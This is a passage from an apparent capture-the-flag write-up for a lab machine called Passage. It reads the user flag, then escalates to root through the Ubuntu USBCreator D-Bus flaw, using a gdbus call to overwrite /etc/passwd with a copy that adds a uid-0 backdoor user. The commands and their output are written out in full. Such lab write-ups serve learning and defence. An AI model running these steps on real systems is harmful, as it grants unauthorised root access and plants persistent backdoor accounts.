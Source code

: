 ### Obtaining user flag
```
paul@passage:~$ cat /home/paul/user.txt
cat /home/paul/user.txt
<Redacted user flag>
```

### Privilege Escalation to root
Using linpeas script, we are able to find out that the machine is vulnerable to privilege escalation via USBCreator.

```
╔══════════╣ USBCreator
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation/d-bus-enumeration-and-command-injection-privilege-escalation                                                                                                                
Vulnerable!! 
```

Using the vulnerability writeup from [here](https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/), we realized that we are able to overwrite arbitary files with arbitary content as a root user.

However, this does not automatically escalate our privileges to a root user. Since we are able to overwrite arbitary files, we will then proceed to modify the /etc/passwd file and create a new root user.

To start with, let us first copy the /etc/passwd file to a ```passwd``` file in the /tmp directory.

```
cp /etc/passwd passwd
```

Afterwards, we will use openssl to generate an encrypted password that we will add the new user to the /tmp/passwd file. 

```
nadav@passage:/tmp$ openssl passwd -1 -salt user3 pass123
$1$user3$rAGRVf5p2jYTqtqOW5cPu/
nadav@passage:/tmp$ echo 'user3:$1$user3$rAGRVf5p2jYTqtqOW5cPu/:0:0:/root/root:/bin/bash' >> passwd
```

Lastly, we will use the USBCreator vulnerability to replace the /etc/passwd file with our own /tmp/passwd file. This will add a new user called ```user3``` with root privileges.

```
nadav@passage:/tmp$ gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /tmp/passwd /etc/passwd true 
()
```

We can now easily escalate the privileges to root using the new user, user3 and the password as pass123

```
nadav@passage:/tmp$ su user3
Password: 
bash: /bin/bash/.bashrc: Not a directory
root@passage:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
root@passage:/tmp# 
```
